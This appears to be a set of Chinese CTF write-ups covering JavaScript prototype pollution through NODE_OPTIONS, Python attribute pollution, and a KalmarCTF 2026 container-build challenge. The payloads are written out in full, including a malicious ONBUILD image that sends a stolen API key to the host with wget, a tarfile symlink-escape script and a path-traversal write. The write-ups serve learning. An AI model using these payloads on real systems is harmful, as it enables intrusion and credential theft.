


## 漏洞点一：`constructor.prototype` 绕过 `__proto__` 检测

`merge` 函数虽然屏蔽了 `__proto__`，但没有屏蔽 `constructor.prototype` 这条经典绕过路径：


js

```js
// 发送以下JSON，merge函数的执行路径：
// merge(config, input) -> key="constructor" -> config.constructor === Object
// -> merge(Object, {prototype:{...}}) -> key="prototype" -> "prototype" in Object === true
// -> merge(Object.prototype, {NODE_OPTIONS:"..."}) -> 成功污染！
```








## 漏洞点二：`for...in` 会枚举原型链属性

`/api/status` 中构建 `customEnv` 的关键代码：


js

```js
const customEnv = Object.create(null);
for (let key in process.env) {  // ← for...in 会遍历继承的可枚举属性！
    if (key === 'NODE_OPTIONS') {
        const value = process.env[key] || "";  // ← 会读到 Object.prototype.NODE_OPTIONS
        // ...过滤正则检查后赋值
        customEnv[key] = value;
    }
}
```


```
解决方案：用 -r 短参数绕过正则
正则只检测 --require，没有检测 -r 这个等价短参数！
/(?:^|\s)--(require|import|loader|openssl|icu|inspect)\b/i
             ↑ 只匹配双横线完整写法
第一步：换 payload，再点 Update Config：
json{"constructor":{"prototype":{"NODE_OPTIONS":"-r /flag"}}}
​```

**第二步：点 Check Node Version**

Node.js 会尝试 `require('/flag')` 加载 flag 文件，然后把它当 JS 解析，解析失败时 stderr 里会输出类似：
​```
/flag:1
flag{xxxxxxxxxxxxxxxx}
^

SyntaxError: Invalid or unexpected token
整个 stderr 会被 output += data 捕获，然后原样返回在 info 字段里。
```




## 一、这道题考什么？

这道题是两个漏洞的**组合拳**：


```
原型链污染  →  污染环境变量  →  子进程读取flag
```

------

## 二、JavaScript 原型链基础

### 什么是原型链？

JS 中每个对象都有一个"祖先"叫 `Object.prototype`，所有对象都**继承**它的属性：


javascript

```javascript
let a = {};
let b = {};

// a 和 b 都是普通对象，它们的"祖先"是同一个 Object.prototype
Object.prototype.x = 123;

console.log(a.x); // 123  ← a 自己没有 x，但从祖先继承到了！
console.log(b.x); // 123  ← b 也继承到了！
```

**这就是原型链污染的本质：污染了祖先，所有对象都受影响。**

------

## 三、原型链污染漏洞

### 危险的 merge 函数

代码里有这样一个合并函数，把用户输入合并到 config 对象里：


javascript

```javascript
function merge(target, source) {
    for (let key in source) {
        if (key === '__proto__') continue;  // 只过滤了 __proto__
        if (source[key] instanceof Object && key in target) {
            merge(target[key], source[key]);
        } else {
            target[key] = source[key];  // ← 危险！直接赋值
        }
    }
}
```

### 两条污染路径对比

| 路径                    | 写法                                    | 是否被过滤 |
| ----------------------- | --------------------------------------- | ---------- |
| `__proto__`             | `{"__proto__":{"x":1}}`                 | ✅ 被拦截   |
| `constructor.prototype` | `{"constructor":{"prototype":{"x":1}}}` | ❌ 没过滤！ |

### 为什么 `constructor.prototype` 有效？

"constructor":{"prototype":{"x":1}}

javascript

```javascript
let config = {};

// merge 的执行过程：
// 1. key = "constructor" → config.constructor 就是 Object 函数本身
// 2. 递归 merge(Object, {"prototype": {"x":1}})
// 3. key = "prototype" → Object.prototype["x"] = 1
// 4. 全局 Object.prototype 被污染！！
```

------

## 四、污染了有什么用？

### 关键代码：`for...in` 会读原型链属性

"constructor":{"prototype":{"isAdmin":true}}

javascript

~~~javascript
// /api/status 里的代码
const customEnv = Object.create(null);

for (let key in process.env) {  // for...in 会枚举继承的属性！
    if (key === 'NODE_OPTIONS') {
        customEnv[key] = process.env[key];  // ← 读到了我们污染的值！
    }
}

spawn('node', [...], { env: customEnv });  // 带着污染的环境变量启动子进程
```

**流程图：**
```
我们写入 Object.prototype.NODE_OPTIONS = "-r /flag"
              ↓
for...in 枚举 process.env 时，继承到了 NODE_OPTIONS
              ↓
子进程启动时带上了 NODE_OPTIONS="-r /flag"
              ↓
子 node 进程执行 require('/flag') 加载 flag 文件
              ↓
flag 不是合法 JS → 报错 → stderr 里包含 flag 内容
              ↓
报错被捕获返回给我们
~~~

**什么是 -r？** 它是 `--require` 的简写。意思是：在运行主代码之前，先预加载（require）指定的模块。


## 五、过滤绕过

### 黑名单过滤（绕过很容易）


javascript

```javascript
const forbidden = ['shell', 'env', 'exports', 'main', ...];
// 检测方式：bodyStr.includes(`"${word}"`)
// 我们的key是 "NODE_OPTIONS"，完全不在黑名单里 ✅
```

### 正则过滤（-r 绕过）


javascript

~~~javascript
// 只过滤了双横线完整写法
/--require|--import|--loader.../

// -r 是 --require 的缩写，正则没考虑到！
NODE_OPTIONS = "-r /flag"  // ✅ 绕过正则
```

---

## 六、总结
```
漏洞1: merge函数没过滤 constructor.prototype
    → 可以污染全局 Object.prototype

漏洞2: for...in 会读原型链上的属性
    → 污染的 NODE_OPTIONS 被传给子进程

漏洞3: 正则只过滤 --require，没过滤 -r
    → 用短参数 -r 绕过，让子进程加载 /flag

结果: flag 文件被当成 JS 解析报错，错误信息里包含 flag 内容
~~~

这类题的核心思路就是：**找到可以写入的点（污染）→ 找到可以被读取的点（触发）→ 让结果回显给我们**。














### 🧱 第一层：理解 Python 对象模型

Python 里万物皆对象，对象有**属性**。


python

~~~python
class Config:
    def __init__(self):
        self.filename = "app.py"   # filename 就是 Config 的一个属性

c = Config()
c.filename        # 读属性 → "app.py"
setattr(c, "filename", "/flag")   # 改属性
c.filename        # → "/flag"
```

关键函数：
- `getattr(obj, k)` → 读对象属性
- `setattr(obj, k, v)` → **写**对象属性（这是漏洞的核心）
- `hasattr(obj, k)` → 判断属性是否存在

---

### 🧱 第二层：理解这道题的数据结构
```
instance (Polaris对象)
  └── config (Config对象)
        └── filename = "app.py"   ← 我们要污染这里
~~~

`/read` 路由直接读 `instance.config.filename` 指向的文件，所以只要能改这个值，就能**任意文件读取**。

------

### 🧱 第三层：理解 merge 函数为什么危险

`merge(src, dst)` 的作用是：**把 src 字典的内容递归地写进 dst 对象**。


python

```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):   # dst 是字典？
            ...
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))     # 递归进入子对象
        else:
            setattr(dst, k, v)            # ← 直接写属性，无任何限制！
```

当你发送：


json

~~~json
{"config": {"filename": "/flag"}}
```

递归过程：
```
merge({"config": {...}}, instance)
  → 发现 instance 有 config 属性，且值是 dict
  → 递归：merge({"filename": "/flag"}, instance.config)
    → instance.config 没有 __getitem__（不是字典）
    → 有 filename 属性，但 "/flag" 不是 dict
    → 走 else：setattr(instance.config, "filename", "/flag")  ✅ 污染成功
```

---

### 🧱 第四层：这个漏洞叫什么

这类漏洞叫 **原型链污染 / 对象属性污染（Object Pollution）**。

| 语言 | 名称 | 典型场景 |
|------|------|----------|
| JavaScript | Prototype Pollution | `__proto__` 污染 |
| Python | Class Pollution / Attribute Pollution | `setattr` 滥用 |

Python 里更厉害的玩法是污染 **`__class__.__init__.__globals__`** 等特殊属性来 RCE，这道题相对简单，只是任意文件读取。

---

### 🧱 第五层：完整攻击流程
```
攻击者                    服务器
  │                         │
  │  POST /                 │
  │  {"config":             │
  │   {"filename":"/flag"}} │
  │ ──────────────────────► │  merge() 执行，instance.config.filename 被改
  │                         │
  │  GET /read              │
  │ ──────────────────────► │  open("/flag").read()
  │                         │
  │ ◄────────────────────── │  返回 flag 内容
~~~

------

### 💡 一句话总结

> `merge` 函数把用户 POST 的 JSON **无限制地写入服务器对象属性**，我们通过构造嵌套 JSON 把文件名从 `app.py` 改成 `/flag`，然后调用 `/read` 接口读出 flag。


# KalmarCTF 2026

## customainer

在web服务上，有一个镜像检查函数存在风险，导致了我们可以加载任意外部的image

```
func (cs *CustomainerService) validateBaseImage(image string) bool {
    for _, r := range image {
       if r < 32 || r > 126 {
          return false
       }
    }

    for baseName, tags := range cs.allowedImages {
       for _, tag := range tags {
          allowedPattern := baseName + ":" + tag
          //这里判断是否以白名单后缀结尾，有风险
          if strings.HasSuffix(image, allowedPattern) {
             return true
          }
       }
    }
    return false
}
```

只判断了后缀，白名单允许 `alpine:latest`，所以 `ttl.sh/你的恶意镜像/alpine:latest` 也能通过检查，可以加载下面这种临时镜像存储站的镜像

```
ttl.sh/evildemo1/alpine:latest 
```

获取flag1的方式，我们需要带着一个api_key去访问/debug/list/<job_id>路由，这就引入了我们的镜像系统了

```
@app.route('/debug/list/<job_id>', methods=['GET'])
def debug_list_files(job_id):
    """Debug endpoint to list extracted files - requires API key authentication"""
    try:
        if not validate_api_key():
            return jsonify({'error': 'Invalid or missing API key'}), 401
        
        job_dir = os.path.join('/shared', job_id)
        if not os.path.exists(job_dir) or not os.path.isdir(job_dir):
            return jsonify({'error': 'Job not found'}), 404
        
        files = []
        for root, dirs, filenames in os.walk(job_dir):
            for filename in filenames:
                full_path = os.path.join(root, filename)
                files.append({
                    'full_path': full_path
                })
        try:
            with open('/flag', 'r') as f:
                flag_content = f.read().strip()
        except Exception as e:
            flag_content = f"Error reading flag: {str(e)}"
        
        return jsonify({
            'job_id': job_id, 
            'files': files,
            'flag': flag_content
        })
        
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

先我们得确定一下宿主机的ip，需要从docker攻击宿主机来获取flag1

构建Dockerfile

```
FROM alpine:latest
ONBUILD RUN ifconfig > /debug.json
```

构建镜像，推送到临时存储站

```
docker build -t ttl.sh/hunsil123/alpine:latest .
docker push ttl.sh/hunsil123/alpine:latest
```

先准备一个空 tar.gz

```
tar czf empty.tgz --files-from /dev/null
```

发送请求：



或者vps

```
curl -X POST http://8.148.230.29:8081/upload \
  -F "base_image=ttl.sh/hunsil123/alpine:latest" \
  -F "archive=@empty.tgz" \
  -o custom-image.tar
```


把服务器返回的 OCI tar 导入 docker

```
docker load -i custom-image.tar
```

用镜像名转成 legacy 格式（把 <镜像名> 替换成上面看到的名字）

```
docker save <镜像名> -o out.tar
```

用 WP 的脚本提取 debug.json

```
for L in $(tar -xOf out.tar manifest.json | jq -r '.[0].Layers[]'); do
  if tar -xOf out.tar "$L" | tar -tzf - 2>/dev/null | grep -qx debug.json; then
    tar -xOf out.tar "$L" | tar -xOzf - debug.json
  fi
done
```



所以我们可以得到宿主机的ip为172.17.0.1，接下来我们就可以通过构建的docker访问宿主机的服务进而获取flag1

### flag1

获取flag1需要拿到/shared目录下的apikey

可以利用软连接进行跳转

将apikey带入构建的docker里，拿着去访问/debug/list/<job_id>获取flag1

waf：

```
@staticmethod
def is_safe_path(path):
    if path.startswith('..'):
        raise Exception(f"Blocked path starting with ..: {path}")
        
    if path.startswith('/'):
        raise Exception(f"Blocked absolute path: {path}")
        
    if '../' in path:
        raise Exception(f"Blocked path containing ../: {path}")
        
    return True
```

我们可以用拼接的方式进行绕过，构造脚本如下

```
import tarfile, time

with tarfile.open("keyleak.tgz", "w:gz") as tar:
    now = int(time.time())


    def symlink(name, target):
        ti = tarfile.TarInfo(name)
        ti.type = tarfile.SYMTYPE
        ti.linkname = target
        ti.mode = 0o777
        ti.mtime = now
        tar.addfile(ti)


    def hardlink(name, target):
        ti = tarfile.TarInfo(name)
        ti.type = tarfile.LNKTYPE
        ti.linkname = target
        ti.mode = 0o644
        ti.mtime = now
        tar.addfile(ti)


    symlink("p", "./..")
    symlink("q", "p/..")
    hardlink("key", "q/apikey")
```

```
python3 make_keyleak.py
ls -lh keyleak.tgz
```

制作最终攻击镜像：

```
nano Dockerfile.attack
```

输入：

```
FROM alpine:latest
ONBUILD RUN --mount=type=bind,source=.,target=/ctx \
  sh -c 'job=$(basename /ctx/*.Dockerfile .Dockerfile); \
         key=$(cat /ctx/extracted/key); \
         wget -O /debug.json \
           --header "X-API-Key: $key" \
           "http://172.17.0.1:5000/debug/list/$job" \
           >/dev/null 2>/wget.err || true'
```

然后构建并推送：

```
docker build -t ttl.sh/hunsil456/alpine:latest -f Dockerfile.attack .
docker push ttl.sh/hunsil456/alpine:latest
```

发送请求，生成tar包

```
curl -X POST http://8.148.230.29:8081/upload \
  -F "base_image=ttl.sh/hunsil456/alpine:latest" \
  -F "archive=@keyleak.tgz" \
  -o result.tar
```

导入并转换格式

```
docker load -i result.tar
docker images | head -5
```

用镜像名转成 legacy 格式

```
docker save customainer-job_b22e8a1edef36571fa313b4212da4aa8:latest -o out2.tar
```

查找的脚本

```
for L in $(tar -xOf out2.tar manifest.json | jq -r '.[0].Layers[]'); do
  if tar -xOf out2.tar "$L" | tar -tzf - 2>/dev/null | grep -qx debug.json; then
    echo "=== 找到了！==="
    tar -xOf out2.tar "$L" | tar -xOzf - debug.json
  fi
done
```



流程图：

```
上传恶意镜像(ONBUILD)
    ↓
绕过白名单(后缀匹配漏洞)
    ↓
tar 软链接逃逸 → 读取 /apikey
    ↓
ONBUILD 触发 → wget 携带 apikey 请求宿主机 /debug/list/<job_id>
    ↓
flag 写入 /debug.json → 从镜像层提取
```


### flag2

第二段flag需要进行条件竞争，整体逻辑是利用上面的软链接文件地址

高版本的docker（>31）在build的时候会调用当前目录下同dockerfile文件名的rego配置

我们通过zipslip构造一个指向flag2的软连接的rego，

如果 rego 文件内容非法就会**报错并把内容打印出来**，我们让这个 rego 文件指向 `/flag2`，就能从报错里读到 flag

```
job_xxx.Dockerfile      ← 服务器自动生成的
job_xxx.Dockerfile.rego ← 我们用软链接伪造，指向 /flag2
```

为什么要条件竞争

```
时间线：
服务器收到请求 → 生成 job_id → 解压我们的tar → 开始build
                     ↑
              我们需要在这里知道 job_id
              才能构造指向对应 rego 的软链接
```

所以脚本逻辑是：

1. 先发一个普通请求，**获取当前所有 job_id**
2. 用这些 job_id 构造软链接 tar（提前猜测下一次的 job_id 就在这些里面）
3. 再发第二个请求带软链接 tar，竞争触发


## RootBabyKalmarCTF

```
uploads//etc/passwd
    ↓ startswith("/") → False ✓
    ↓ ".." in f      → False ✓  （绕过检查！）
    ↓ f.split(os.sep, maxsplit=1)
    → ["uploads", "/etc/passwd"]
    ↓ filename = filename[1]
    → "/etc/passwd"  ← 任意路径写入
```

